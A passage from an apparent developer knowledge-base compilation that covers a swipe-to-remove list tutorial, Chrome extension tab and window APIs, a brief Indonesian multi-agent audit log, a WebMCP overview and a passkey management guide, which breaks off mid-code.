  background: Canvas;

  /* Row separator (example value; customize to taste). */
  border-bottom: 1px solid #eee;
}

/* Gate `scroll-initial-target` behind `.is-initialized` so it only
   applies once the track is actually a scroll container. Setting it on
   the content before then would let the property walk up to the nearest
   scrollable ancestor (typically the document) and shift the page's
   initial scroll position to bring this row's content into view. With
   the gate, the rule is only live when the row's own track can satisfy
   it, so the initial scroll happens inside the track as intended. */
.SwipeableList-item.is-initialized .SwipeableList-content {
  scroll-initial-target: nearest;
}

/* The track is the focusable scroll container, but its overflow is clipped
   so a default focus ring on the track itself would be invisible. Project
   the focus affordance onto the content element (which paints above the
   track) using `:focus-visible` on the track. */
.SwipeableList-track:focus-visible .SwipeableList-content {
  outline: auto;
  outline-offset: -2px;
}
```

### Step 3: Add the action icons to the list item

The action color lives on the spacers (Step 2). The action **icon** lives on the list item itself, anchored to the row's left and right edges.

> **Note:** Throughout this guide, "left" refers to the *left side of the row* (which is revealed by swiping right), and "right" refers to the *right side of the row* (revealed by swiping left).

The placement, sizing, and motion below are a **starting suggestion**, not a requirement. Adjust the icon size, edge insets, threshold-pop scale, transition duration, and even the choice of pseudo-elements vs. real DOM nodes to match your design. The only mechanical requirement is that the icon sits behind the content (so the content can cover it pre-swipe) and inside the list item (so it doesn't scroll with the spacer). Everything else is taste.

```css
/* Action icons painted on the list item. They're absolutely positioned
   inside the row (which is a containing block thanks to `contain: content`
   on `.SwipeableList-item` from Step 2) and sit at z-index 1, so the
   content element (z-index 2) covers them until the user swipes far
   enough. */
.SwipeableList-item.is-initialized::before,
.SwipeableList-item.is-initialized::after {
  /* Inline an SVG as the action icon. Replace this with whatever icon
     fits the action (archive, checkmark, clock, etc.). The `fill='white'`
     is baked into the SVG so it contrasts with the red spacer background;
     adjust if your background color is light. */
  --action-icon: url("data:image/svg+xml;utf8,<svg xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' fill='white'><path d='M9 3v1H4v2h1v13a2 2 0 0 0 2 2h10a2 2 0 0 0 2-2V6h1V4h-5V3H9zm0 5h2v9H9V8zm4 0h2v9h-2V8z'/></svg>");

  content: '';
  position: absolute;
  z-index: 1;

  /* The size (`width`) and insets (`left`/`right` below) are example
     values, tune them to match your row height and visual weight.
     The icon fills its box via `background-size: contain`, so changing
     `width` resizes it. */
  width: 1.5em; /* example value, adjust to taste */
  aspect-ratio: 1;
  top: 50%;
  translate: 0 -50%;

  /* Smooth transitions for the icon's visual states: the activate-point
     pop (`scale`, see `.is-activating` below) and the removal fade
     (`scale` + `opacity`, see `.is-removing` below). 0.2s is an example
     duration. */
  transition: scale 0.2s ease, opacity 0.2s ease;

  background: var(--action-icon) center / contain no-repeat;
}
/* Inset from the row edge (example values; adjust to match your layout). */
.SwipeableList-item.is-initialized::before { left: 1.5em; }
.SwipeableList-item.is-initialized::after  { right: 1.5em; }

/* Activating pop: scale the icon up when the user is past the visual
   activate point, so the row's affordance feels reactive. Toggled by JS
   in Step 4. */
.SwipeableList-item.is-activating::before,
.SwipeableList-item.is-activating::after {
  scale: 1.333;
}

/* Removal affordance: fade and shrink the icons as the row collapses.
   Driven by the `is-removing` class added in Step 4 at commit time;
   the existing `transition` on the icons animates the change. */
.SwipeableList-item.is-removing::before,
.SwipeableList-item.is-removing::after {
  scale: 0.5;
  opacity: 0;
}

/* Only show the icon on the *leading* side of the swipe; hide the
   trailing-side one. `data-swipe-direction` is set by JS in Step 4. */
.SwipeableList-item.is-activating[data-swipe-direction="left"]::after,
.SwipeableList-item.is-activating[data-swipe-direction="right"]::before {
  visibility: hidden;
}
```

### Step 4: Detect the commit gesture with `IntersectionObserver`

Use `IntersectionObserver` rooted at the track, observing the content. As the user swipes, the content's intersection ratio with the track drops; we use **two thresholds**:

- `activateThreshold`: a high ratio (e.g., 0.8). When the visible portion of the content drops below this, the user is past the visual activate point. Toggle the icon-pop affordance.
- `commitThreshold`: a low ratio (e.g., 0.2). When the visible portion drops below this, the user has committed. Start the remove animation **immediately**, without waiting for the snap gesture to fully settle. The collapsing row blends into the user's continuing swipe momentum, which feels more responsive than waiting for the snap to land before reacting.

Two more concerns are handled here:

- **Lazy per-item setup**: a single outer `IntersectionObserver` rooted at the viewport drives setup and the start/stop of the inner swipe observers. Items only get wired up the first time they scroll into view, and items that scroll off-screen have their swipe observer paused. This keeps the active observer count bounded and avoids reading layout-dependent values (like `clientWidth`) before the item has been rendered.
- **Dynamic items**: real lists grow over time (initial render, infinite scroll, server push). A `MutationObserver` on the `<ul>` registers any newly added items with the outer observer.

```js
// Per-item handles. Populated when an item is first lazily wired up; read by
// the outer viewport observer to start/stop the inner observer as items enter
// and leave the viewport.
const swipeObservers = new WeakMap();

// Outer observer: drives the entire swipe lifecycle off viewport visibility.
// On first entry, lazily wires the item up (`setupItem` reads layout-dependent
// values like `clientWidth`, which return 0 until the item is rendered). After
// setup, starts the inner observer. On exit, stops the inner observer so
// offscreen items don't track scroll positions.
const viewportObserver = new IntersectionObserver((entries) => {
  for (const entry of entries) {
    const item = entry.target;
    if (entry.isIntersecting) {
      const handle = swipeObservers.get(item) ?? setupItem(item);
      handle.observer.observe(handle.content);
    } else {
      const handle = swipeObservers.get(item);
      if (handle) handle.observer.unobserve(handle.content);
    }
  }
});

function setupItem(item) {
  const track = item.querySelector('.SwipeableList-track');
  const content = track.querySelector('.SwipeableList-content');

  // Upgrade the row into "swipeable" mode. This is the gate for all the CSS
  // from Steps 2 and 3 (the track becomes a snap container, the action icons
  // appear). Done *before* the inner observer is attached so the snap
  // container exists by the time intersection callbacks can fire.
  item.classList.add('is-initialized');

  // Tunable thresholds. `activateThreshold` is the visual feedback point
  // (icon pops). `commitThreshold` is the point of no return: once the
  // content is past this point of being off-screen, we commit even if the
  // user releases mid-gesture and the track snaps back. A low value (~0.2)
  // commits before the snap settles, so the remove animation can start
  // during the swipe.
  const activateThreshold = 0.8;
  const commitThreshold = 0.2;

  // One inner observer per item, rooted at the track. Vertical scrolling of
  // the outer list moves root and target together, so the callback only fires
  // for the horizontal swipe.
  const observer = new IntersectionObserver((entries, observer) => {
    const entry = entries.at(-1);
    const ratio = entry.intersectionRatio;

    // Direction the user is swiping toward. A positive offset from the
    // track's left edge means the content has been pulled right (left
    // spacer revealed), so the leading icon is on the left.
    const direction = (entry.boundingClientRect.x - entry.rootBounds.x) > 0
      ? 'left'
      : 'right';

    if (ratio < commitThreshold) {
      // The IO entry's boundingClientRect is the last reliable measurement
      // before the animation starts; reuse it for both the pre-collapse
      // height and the slide-off translate distance.
      removeItem(item, content, direction, entry);
      viewportObserver.unobserve(item);
      observer.disconnect();
      return;
    }

    // Scale up the leading icon while the content is past the activate
    // point; restore it at rest.
    item.classList.toggle('is-activating', ratio < activateThreshold);

    // Hold the previous direction at rest so the icon's exit animation
    // finishes on the side the user was swiping toward.
    if (entry.boundingClientRect.x !== entry.rootBounds.x) {
      item.dataset.swipeDirection = direction;
    }
  }, {
    root: track,
    threshold: [commitThreshold, activateThreshold],
  });

  // Return the handle without starting observation; the outer viewport observer
  // calls `observer.observe(content)` once the item is in view.
  const handle = {observer, content};
  swipeObservers.set(item, handle);
  return handle;
}

async function removeItem(item, content, direction, entry) {
  const opts = { duration: 300, easing: 'ease', fill: 'forwards' };

  const rect = entry.boundingClientRect;
  // Content's pixel offset from the track's left edge.
  const x = rect.x - entry.rootBounds.x;
  // Pixel distance the content needs to travel to be fully out of view.
  const translate = direction === 'left'
    ? rect.width - x
    : -(x + rect.width);

  // Use a combination of CSS transitions (for declarative styles) and
  // WAAPI animations (for computed values) to remove the element,
  // then await the completion of all of them.
  // Note: the content translate animation is important because the
  // height-collapse animation can otherwise finish before the browser's
  // smooth scroll-snap has scrolled the content fully off-screen.
  item.classList.add('is-removing');
  item.animate([{ height: `${rect.height}px` }, { height: '0px' }], opts);
  content.animate([{ translate: `${translate}px` }], opts);
  await Promise.allSettled(
    item.getAnimations({ subtree: true }).map((a) => a.finished),
  );

  // Safari has a scroll-latching bug: removing the node while the swipe
  // gesture's momentum is still resolving causes the next item (which
  // slides up into this one's place) to inherit the scroll and
  // immediately scroll itself off-screen. Detect Safari via
  // `GestureEvent` (a Safari-only API) and defer the actual DOM removal
  // until the gesture has fully settled. The 5s delay is conservative;
  // anything longer than the momentum tail is fine. Mark the row inert
  // so it can't be interacted with during the delay.
  if (globalThis.GestureEvent) {
    item.inert = true;
    setTimeout(() => item.remove(), 5000);
  } else {
    item.remove();
  }
}

function setupList(list) {
  // Observe items already in the list.
  for (const item of list.children) {
    if (item.matches('.SwipeableList-item')) {
      viewportObserver.observe(item);
    }
  }

  // Pick up items added later (initial render after data loads, infinite
  // scroll, server push). Removals don't need MutationObserver handling —
  // the commit branch above already unobserves the item before removing it
  // from the DOM.
  new MutationObserver((mutations) => {
    for (const mutation of mutations) {
      for (const node of mutation.addedNodes) {
        if (node.nodeType === Node.ELEMENT_NODE &&
            node.matches('.SwipeableList-item')) {
          viewportObserver.observe(node);
        }
      }
    }
  }).observe(list, { childList: true });
}

document.querySelectorAll('.SwipeableList').forEach(setupList);
```

### Step 5: Use the action and label that fits your use case

For variants other than removal, only the visuals and the body of the commit handler change:

- **Archive**: green/blue background, archive icon, move the item to an archive list rather than removing it.
- **Mark as read**: subdued background, checkmark icon, update item state and re-render (or just remove a `.unread` class).
- **Snooze**: blue background, clock icon, hide until a chosen time.

The scroll/snap/observation mechanics are unchanged.

#### Different actions per swipe direction

A single row can also expose **two different actions**: one for a left swipe and one for a right swipe (e.g., "archive" on right, "delete" on left), the way many native mail apps do it. The scroll, snap, and commit-detection mechanics don't change at all — the only thing that changes is what happens at commit time.

In Step 4, the commit branch always calls `removeItem(...)`. To support two actions, pick the handler based on `direction`:

```js
if (ratio < commitThreshold) {
  const handler = direction === 'left' ? archiveItem : removeItem;
  handler(item, content, direction, entry);
  viewportObserver.unobserve(item);
  observer.disconnect();
  return;
}
```

A note on naming: `removeItem` is named for the destructive case, but the function it runs (collapse the row's height, slide the content off-screen, then drop the node) is really a generic "this row is done, animate it away" routine. It works just as well for archive, mark-as-read, or snooze — the row goes away from *this* list either way. If your handlers don't actually remove anything (e.g., both move the item elsewhere), rename it to something neutral like `dismissItem` so the code reads correctly.

To make the two actions visually distinct, hoist a color and icon for each direction onto the list item, then paint the track with a split gradient and the two pseudo-element icons from the same variables.

```css
.SwipeableList-item {
  /* Action color + icon per swipe direction. `--left-*` is revealed
     when the user swipes RIGHT (e.g., archive); `--right-*` is revealed
     when the user swipes LEFT (e.g., delete). */
  --left-action-color: hsl(140 50% 40%);
  --left-action-icon: url("…archive svg…");
  --right-action-color: hsl(0 65% 50%);
  --right-action-icon: url("…trash svg…");
}

.SwipeableList-item.is-initialized .SwipeableList-track {
  /* Split reveal: left half of the scrollable area gets the left-action
     color, right half gets the right-action color. `background-attachment:
     local` makes the gradient's positioning area the scrollable area
     (3x the visible width), so the default size fills it and the 50% hard
     stop lines up exactly with the midpoint of the resting content column.
     The track's color also stays continuous behind the content as it
     translates off, so the leading-direction color shows the whole way. */
  background-image: linear-gradient(
    to right,
    var(--left-action-color) 50%,
    var(--right-action-color) 50%
  );
  background-attachment: local;
}

/* Per-side icons read from the same variables. */
.SwipeableList-item.is-initialized::before { background-image: var(--left-action-icon); }
.SwipeableList-item.is-initialized::after  { background-image: var(--right-action-icon); }
```

With this setup, the spacers no longer need their own background-color (the track's gradient handles the reveal), so you can drop the `background-color` rule on `.SwipeableList-track::before, ::after` from Step 2 if you're using this dual-action variant.

## Best practices and pitfalls

- **DO** use `mandatory` snap, not `proximity`. With `proximity`, the row can rest partially scrolled, leaving the action background half-visible.
- **DO** set `overscroll-behavior-x: none` on the track. Without it, an over-swipe can trigger the browser's back-navigation gesture on iOS/Android.
- **DO** commit at a threshold *before* the snap settles (e.g., `commitThreshold ≈ 0.2`) rather than waiting for the content to be fully off-screen. This lets the remove animation start during the gesture, which feels significantly more responsive than waiting for the snap to land.
- **DO** drive per-item setup from an outer viewport `IntersectionObserver` rather than wiring every item up at page load. This avoids reading layout-dependent values (`clientWidth`, etc.) before items have been rendered, and keeps the active observer count proportional to what the user can actually see.
- **DO** use a `MutationObserver` on the list when items are added dynamically (initial render after data loads, infinite scroll, server push). Without it, items appended after page load won't get wired up.
- **DO NOT** rely on `pointerdown`/`pointermove`/`pointerup` to drive a manual transform. You'll lose momentum, snap-back, keyboard accessibility, and reduced-motion handling that the browser gives you for free.
- **DO** confirm destructive actions when appropriate. For "remove", consider showing an undo toast after the swipe completes; the gesture is fast and easy to trigger by accident.
- **DO** ensure the scroll track is focusable, keyboard accessible, and that there is a visual focus affordance.
- **DO** provide accessible alternatives for any relevant actions triggered by the swipe (e.g., a visible button, context menu, or edit mode).

## Fallback strategies

The scroll-snap mechanics that underpin this pattern (`scroll-snap-type`, `scroll-snap-align`), `IntersectionObserver`, `MutationObserver`, `ResizeObserver`, and the Web Animations API are all Baseline Widely Available, so the gesture, commit detection, lifecycle management, and removal animation work broadly. All newer features that are used are either not core to the experience or have robust fallbacks that can be reliably used now.

### Fallback for `overscroll-behavior`

overscroll-behavior has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 150 (Apr 2026).
Unsupported in: Safari.

No fallback is needed for this use case. `overscroll-behavior` was Baseline Widely Available but no longer is due to an interop issue that only manifests on containers without scrollable overflow. But the track here is always horizontally scrollable (three full-width columns inside a 100%-width container), so the property behaves consistently across browsers and the swipe gesture is reliably contained.

### Fallback for `scrollbar-width`

Baseline status for scrollbar-width: Newly available. It's been Baseline since 2024-12-11.
Supported by: Chrome 121 (Jan 2024), Edge 121 (Jan 2024), Firefox 64 (Dec 2018), and Safari 18.2 (Dec 2024).

Hidden scrollbars are a visual enhancement, not the mechanism that makes swipe-to-remove work. If your Baseline target does not include `scrollbar-width`, the row still scrolls, snaps, detects commit, and removes correctly; the unsupported experience may simply show a horizontal scrollbar. If your product requires hidden scrollbars in older WebKit-derived browsers, you can add a narrowly scoped `::-webkit-scrollbar { display: none; }` rule for the swipe track.

### Fallback for `scroll-initial-target`

scroll-initial-target has limited availability.
Supported by: Chrome 133 (Feb 2025) and Edge 133 (Feb 2025).
Unsupported in: Firefox and Safari.

If your Baseline target does not include `scroll-initial-target`, scroll the track to the content programmatically inside `setupItem`. Detect with `CSS.supports`:

```js
// Hoist the feature detect so the conditional `ResizeObserver` below can be
// skipped entirely when the property is supported.
const needsScrollWorkaround = !CSS.supports('scroll-initial-target', 'nearest');

function setupItem(item) {
  // ...existing setup from Step 4...

  if (needsScrollWorkaround) {
    track.scrollLeft = track.clientWidth;
  }

  // ...attach the inner IntersectionObserver, etc.
}
```

**Call ordering matters.** The programmatic scroll MUST run:

1. **AFTER** `.is-initialized` is added to the list item (the class is what turns the track into a scroll container; setting `scrollLeft` on a non-scrollable element is a no-op).
2. **BEFORE** the inner `IntersectionObserver` from Step 4 is attached. Otherwise the initial programmatic scroll past the left spacer will be observed as a "swipe" and immediately fire the commit handler.

Driving setup from the outer viewport observer (Step 4) is what makes this reliable: `setupItem` runs after the item is rendered, so `track.clientWidth` returns a real value rather than `0`.

Some browsers (notably Safari) also reset the snap-container scroll position whenever the track resizes (URL-bar show/hide, viewport resize, container queries, etc.). Use a `ResizeObserver` on each track to re-apply the scroll. Gate it behind the same `CSS.supports` check — when `scroll-initial-target` is supported, the browser handles resize-time scroll restoration itself.

```js
const trackResizeObserver = needsScrollWorkaround
  ? new ResizeObserver((entries) => {
      for (const entry of entries) {
        entry.target.scrollLeft = entry.target.clientWidth;
      }
    })
  : null;

function setupItem(item) {
  // ...existing setup...

  if (needsScrollWorkaround) {
    track.scrollLeft = track.clientWidth;
    trackResizeObserver.observe(track);
  }

  // ...attach the inner IntersectionObserver, etc.
}
```

Unobserve the track before the row's height animation runs in `removeItem`, otherwise the height change re-triggers the resize callback during removal. Add this alongside the existing `viewportObserver.unobserve(item)` in the commit branch:

```js
if (ratio < commitThreshold) {
  removeItem(item, content, direction, entry);
  viewportObserver.unobserve(item);
  if (needsScrollWorkaround) trackResizeObserver.unobserve(track);
  observer.disconnect();
  return;
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_TAB-MANAGEMENT.MD

# Tab Management & Groups
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Permissions

```json
{
  "permissions": ["tabs", "tabGroups"]
}
```

Note: `tabs` permission gives access to `url`, `title`, `favIconUrl` on Tab objects.
Without it, you can still use `chrome.tabs` but won't see sensitive tab properties.

## Querying Tabs

```js
// All tabs
const allTabs = await chrome.tabs.query({});

// Active tab in current window
const [activeTab] = await chrome.tabs.query({ active: true, currentWindow: true });

// Tabs matching a URL pattern
const gmailTabs = await chrome.tabs.query({ url: '*://mail.google.com/*' });
```

## Tab Operations

```js
// Create
const tab = await chrome.tabs.create({ url: 'https://example.com', active: true });

// Update
await chrome.tabs.update(tabId, { url: 'https://new-url.com', pinned: true });

// Close
await chrome.tabs.remove(tabId);
await chrome.tabs.remove([tabId1, tabId2]); // Multiple

// Move
await chrome.tabs.move(tabId, { index: 0 }); // Move to first position

// Reload
await chrome.tabs.reload(tabId);
```

## Tab Groups

```js
// Create a group from tabs
const groupId = await chrome.tabs.group({ tabIds: [tabId1, tabId2] });

// Customize the group
await chrome.tabGroups.update(groupId, {
  title: 'Work',
  color: 'blue',     // grey, blue, red, yellow, green, pink, purple, cyan, orange
  collapsed: false
});

// Move tab into existing group
await chrome.tabs.group({ tabIds: [newTabId], groupId: existingGroupId });

// Ungroup
await chrome.tabs.ungroup(tabId);
```

## Grouping by Domain

```js
async function groupByDomain() {
  const tabs = await chrome.tabs.query({ currentWindow: true });
  const byDomain = {};

  for (const tab of tabs) {
    try {
      const domain = new URL(tab.url).hostname;
      (byDomain[domain] ??= []).push(tab.id);
    } catch { /* ignore tabs without URLs */ }
  }

  for (const [domain, tabIds] of Object.entries(byDomain)) {
    if (tabIds.length > 1) {
      const groupId = await chrome.tabs.group({ tabIds });
      await chrome.tabGroups.update(groupId, {
        title: domain.replace('www.', ''),
        color: 'blue'
      });
    }
  }
}
```

## Events

```js
chrome.tabs.onCreated.addListener((tab) => { /* new tab */ });
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => { /* tab changed */ });
chrome.tabs.onRemoved.addListener((tabId, removeInfo) => { /* tab closed */ });
chrome.tabs.onActivated.addListener(({ tabId, windowId }) => { /* tab focused */ });
chrome.tabGroups.onUpdated.addListener((group) => { /* group changed */ });
```

## Windows

⚠️ **`chrome.windows` has NO `.query()` method.** Unlike `chrome.tabs.query()`, there is no
`chrome.windows.query()`. Use the correct method for your need:

```js
// ❌ BROKEN
const windows = await chrome.windows.query({ focused: true });
// TypeError: chrome.windows.query is not a function

// ✅ CORRECT
const focused = await chrome.windows.getLastFocused({ populate: true }); // includes tabs array
const current = await chrome.windows.getCurrent({ populate: true });
const all     = await chrome.windows.getAll({ populate: true });
const single  = await chrome.windows.get(windowId, { populate: true });
```

Full API: `getAll`, `getLastFocused`, `getCurrent`, `get(windowId)`, `create`, `update`, `remove`.
Pass `{ populate: true }` to include the `tabs` array on the returned window object.

```js
// Create a new window with specific tabs
const win = await chrome.windows.create({ url: 'https://example.com', focused: true });

// Move current window to a specific position/size
await chrome.windows.update(windowId, { left: 0, top: 0, width: 800, height: 600 });

// Minimise / maximise
await chrome.windows.update(windowId, { state: 'minimized' }); // 'normal' | 'minimized' | 'maximized' | 'fullscreen'
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database]

### 📘 KNOWLEDGE: NEXUS_TDD_INSIGHTS.MD

# 🧠 NEXUS INSIGHT: TDD Project #1 Conclusions
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, vcs, tdd, laravel, nexus_institutionalized]

## 📝 Kesimpulan Strategis
1. **Inkonsistensi Model-Migration**: Berhasil dideteksi oleh `SchemaGuard` dan `database-architect`.
2. **Keamanan Hardcoded**: `database-architect` berhasil mendeteksi string koneksi dalam file JS.
3. **Kesenjangan Perangkat (Gap Analysis)**: Sistem membutuhkan modul perbaikan otomatis khusus Laravel (`laravel-architect-actions.js`).

## 🚀 Insight Operasional
Protokol multi-agent terbukti stabil dalam menjalankan siklus audit paralel tanpa tabrakan memori.

---
*Verified by Nexus Engine - TDD Project #1*

### 📘 KNOWLEDGE: NEXUS_TDD_PROJECT_1_LOG.MD

# 🚀 TDD Project #1 Log: Intelligent CRUD Auditor
**Target**: `tests/project1`
**Date**: 07/05/2026
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, vcs, tdd, laravel, nexus_institutionalized]

## 🧐 Problem Statement
Mendeteksi inkonsistensi antara Model Laravel dan Migration, serta menemukan celah keamanan database (hardcoded strings).

---

## 🔍 [1/4] Audit Phase
**Status**: COMPLETED
**Audit ID**: `AUDIT-1778142921955`

### Key Findings:
1.  **Database Security**: Hardcoded connection string found in `config/database.js`. (Database Architect)
2.  **VCS Governance**: `.gitignore` missing. (VCS Architect)
3.  **Schema Governance**: `User` model missing `HasUuids` trait. (SchemaGuard)
4.  **Structure**: Standard Nexus folders and README are missing.

---

## 📅 [2/4] Planning Phase
**Status**: COMPLETED
**Plan ID**: `PLAN-1778142974753`

### Implementation Strategy:
*   **Fix 1-4**: Manual structure creation (Engine skipped auto-fix as no pattern matched).
*   **Fix 5**: Hardcoded DB string needs moving to `.env`.
*   **Fix 6**: `.gitignore` generation.
*   **Fix 8**: UUID Trait injection into `User.php`.

---

## 🚀 [3/4] Execution Phase
**Status**: COMPLETED (Partial)
**Tasks**: 8/8 processed by Orchestrator.
**Note**: Sebagian besar perbaikan bersifat rekomendasi karena ketiadaan modul "Auto-Fixer" spesifik untuk Laravel Blueprint dalam core saat ini.

---

## 🔍 [4/4] Re-Audit Phase
**Status**: COMPLETED
**Audit ID**: `AUDIT-1778143001765`
**Observation**: Temuan tetap sama. Ini memvalidasi bahwa agen spesialis bekerja secara konsisten dalam mendeteksi masalah, namun alur "Auto-Execution" memerlukan penambahan *Machine Actions* khusus untuk Laravel Blueprint.

---

## 📝 Final Summary & Pipeline Insight
**Status**: SUCCESSFUL TEST
**Kesimpulan**: 
1.  **Multi-Agent Stability**: Agen spesialis (`database-architect`, `vcs-architect`, `documentation-architect`) berhasil berkolaborasi dalam satu siklus tanpa tabrakan.
2.  **Observability**: Trace ID dan Log korelasi tercatat dengan benar di `logs/orchestration`.
3.  **Gap Analysis**: NEXUS memerlukan modul `laravel-architect-actions.js` untuk melakukan perbaikan fisik otomatis pada file PHP/Laravel.
4.  **Pipeline Ready**: Bahan dokumentasi ini sudah cukup untuk menjadi referensi *Learning* bagi agen di siklus berikutnya.

---
*End of Project #1 Test Log*

### 📘 KNOWLEDGE: NEXUS_WEBMCP.MD

# WebMCP (Web Model Context Protocol)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


WebMCP is a browser-native JavaScript API that allows web pages to expose their client-side functionality as structured "tools" to AI agents, browser assistants, and assistive technologies. 

IMPORTANT: WebMCP is currently in Early Preview on Chromium-based browsers (such as Chrome and Edge). It requires Chromium version `146.0.7672.0` or higher and the `#enable-webmcp-testing` flag.

**Crucial Distinction:** WebMCP runs entirely **client-side** in the browser tab. It is *not* a backend server, and it does *not* use HTTP, Server-Sent Events (SSE), or `stdio` transports. The web page itself acts as the tool registry.

Currently, WebMCP **only supports Tools**. It does not support the "Resources" or "Prompts" primitives found in the backend Model Context Protocol.

## Quick Overview

- **Imperative API**: Use `navigator.modelContext.registerTool()` for complex logic and dynamic interactions.
- **Declarative API**: Annotate standard HTML `<form>` elements with `toolname` and `tooldescription` to turn them into tools.

## Best Practices

* **Naming and Semantics**: Use specific verbs describing exact behavior (e.g. `create-event` vs `start-event-creation-process`). Favor positive descriptions over listing limitations.
* **Schema Design**: Accept raw user input (avoid agent math/calculation). Ensure all parameters have specific types and explain the purpose of options.
* **Reliability**: Validate constraints in code and return descriptive errors for retries. Handle rate limiting gracefully. Ensure the function returns *after* UI state updates for consistency.
* **Tool Strategy**: Tools should be atomic, composable, and distinct. Do not force flow control instructions ("Don't call B after A") — let the agent decide. Register/unregister tools dynamically depending on the current page context. Use `annotations: { readOnlyHint: true }` (placed after `execute`) for tools that do not modify state to inform the agent of safe execution.
* **Clean Up**: Always use `AbortSignal` to unregister tools when pages transition or resources are released to avoid leaks and collisions. Do not use `unregisterTool`.
* **Web Development Best Practices**: WebMCP tools run as client-side JavaScript in the browser tab. They must adhere to regular web development best practices (e.g., keeping secrets out of client-side code, accessing backend databases through secure API layers, and using Web Workers, WASM, or WebGPU for heavy compute).

### When to Discourage WebMCP
* **High-Risk Actions without Guardrails**: Avoid auto-submitting tools for destructive or irreversible actions (e.g., deleting data) unless the UI requires manual user confirmation outside the agent's control.
* **Hyper-Dynamic State**: If data changes faster than the agent can react, it may work with stale context.

### Anti-Patterns & Warnings (DO NOT DO THIS)

* **Do not use backend transports.** WebMCP is for browser tabs, not Node.js background processes.
* **Do not include Resources or Prompts.** These are not supported in the current WebMCP spec.
* **Do not ignore `inputSchema` structure.** Always provide clear descriptions for every parameter to minimize agent hallucinations.
* **Do not use outside of a Secure Context (HTTPS).**

## Implementation Status

WebMCP is currently in early preview in Chromium-based browsers (e.g., Chrome, Edge):

* **Current Status**: Early preview.
* **Required Version**: Chromium `146.0.7672.0` or higher.
* **Activation**: Requires enabling the flag `chrome://flags/#enable-webmcp-testing` or `edge://flags/#enable-webmcp-testing`.
* **Specification**: Evolving [Draft Community Group specification](https://webmachinelearning.github.io/webmcp/); not yet a standards-track recommendation.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_PASSKEY-MANAGEMENT.MD

# Passkey Management Guide
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This guide details how to enable users to view, rename, and delete their registered passkeys while keeping saved credentials perfectly synchronized between the server and the user's password managers using the Signal API.

## Server-Side Operations

Your backend database layer and endpoints MUST support common CRUD actions for registered credentials. Decoupled from framework-specific libraries, the server exposes endpoints to:

1.  **List all user credentials**: Fetch all `StoredPasskeyCredential` records matching the signed-in user's ID.
2.  **Update credential names**: Accept a new custom string name for a specific credential ID and persist the update.
3.  **Delete credentials**: Remove a specific credential ID from the database.

```javascript
// Node.js routing example for credential CRUD
router.get('/api/credentials', checkUserAuthenticated, async (req, res) => {
  const list = await db.findCredentialsByUserId(req.user.id);
  return res.json(list);
});

router.put('/api/credential/:id', checkUserAuthenticated, async (req, res) => {
  const { id } = req.params;
  const { name } = req.body;
  const cred = await db.findCredentialById(id);
  if (!cred || cred.passkeyUserId !== req.user.id) {
    return res.status(404).json({ error: 'Credential not found.' });
  }
  cred.name = name;
  await db.saveCredential(cred);
  return res.json(cred);
});

router.delete('/api/credential/:id', checkUserAuthenticated, async (req, res) => {
  const { id } = req.params;
  const cred = await db.findCredentialById(id);
  if (!cred || cred.passkeyUserId !== req.user.id) {
    return res.status(404).json({ error: 'Credential not found.' });
  }
  await db.deleteCredential(id);
  return res.json({ success: true });
});
```

## Client-Side Management UI

Render a dedicated settings panel allowing users to easily audit and manage their registered authentication options:

1.  **Display saved list**: Fetch list from your endpoint and render individual credential rows. If the response is empty, render a helpful empty-state message (e.g., "No passkeys found").
2.  **Map AAGUID Metadata**: For each passkey, lookup its `aaguid` property against your local registry to render its provider details. See [Determine the passkey provider from AAGUID](#aaguid) section for more details.
3.  **Per-Item UI Requirements**: Every row inside the list container MUST render:
    *   **Provider Icon**: AAGUID-derived image or data URI.
    *   **Provider/Custom Name**: AAGUID-derived name or user-renamed string.
    *   **Registration Date**: The database-persisted raw epoch timestamp `registeredAt` formatted to a human-readable date for client display.
    *   **Last Used Date**: The database-persisted raw epoch timestamp `lastUsedAt` formatted to a human-readable date (if present) for client display.
    *   **Rename Button**: Triggers a rename text input modal.
    *   **Delete Button**: Triggers deletion.
4.  **Conditional "Create Passkey" Button**:
    *  Offer a prominent "Create passkey" registration trigger button on the management page. Before rendering this UI element, the page MUST feature-detect capabilities using `PublicKeyCredential.getClientCapabilities()` to verify platform authenticator is supported. If passkeys are unsupported, hide this button and gracefully encourage standard MFA enrollments instead.
    *  Allow registering a security key by omitting `authenticatorSelection.authenticatorAttachment` on `navigator.credentials.create()` call.

## Signal API Synchronization

The Signal API lets the application communicate credential states to password managers, keeping the user's synced vaults and your backend database in lockstep.

*   **Parameter Encoding Rule**:
    *  All `userId` and credential ID parameters passed to Signal API methods (`signalAllAcceptedCredentials`, `signalCurrentUserDetails`) MUST be **Base64URL-encoded strings**.
*   **Initiating Page Load Sync**:
    *  The application MUST invoke `signalAllAcceptedCredentials()` automatically in a `DOMContentLoaded` page load event listener.
*   **Management Updates Sync**:
    *  The application MUST invoke `signalAllAcceptedCredentials()` immediately within your delete credential click handler post-fetch.
    *  The application MUST invoke `signalCurrentUserDetails()` immediately within your username or display name rename click handler post-fetch.

```javascript
// Client-side management synchronization ES module
import { listFetch, renameFetch, deleteFetch } from './api.js';

// Base64URL-encoded User ID string (illustration only)
const base64UrlUserId = "M2YPl-KGnA8";

async function syncAcceptedCredentials(currentCredentialsList) {
  try {
    const credentialIds = currentCredentialsList.map(c => c.id); // Map of Base64URL credential ID strings
    
    await PublicKeyCredential.signalAllAcceptedCredentials({
      rpId, // RP ID must match the one defined on the server
      userId: base64UrlUserId, // User ID Base64URL-encoded string
      allAcceptedCredentialIds: credentialIds
    });
  } catch (e) {
    console.error('SignalAllAcceptedCredentials sync failure:', e);
  }
}

async function loadManagementPanel() {
  const response = await listFetch();
  const list = await response.json();
  
  renderUI(list);
  // Sync on page load
  await syncAcceptedCredentials(list);
}

async function performDelete(credentialId) {
  const response = await deleteFetch(credentialId);
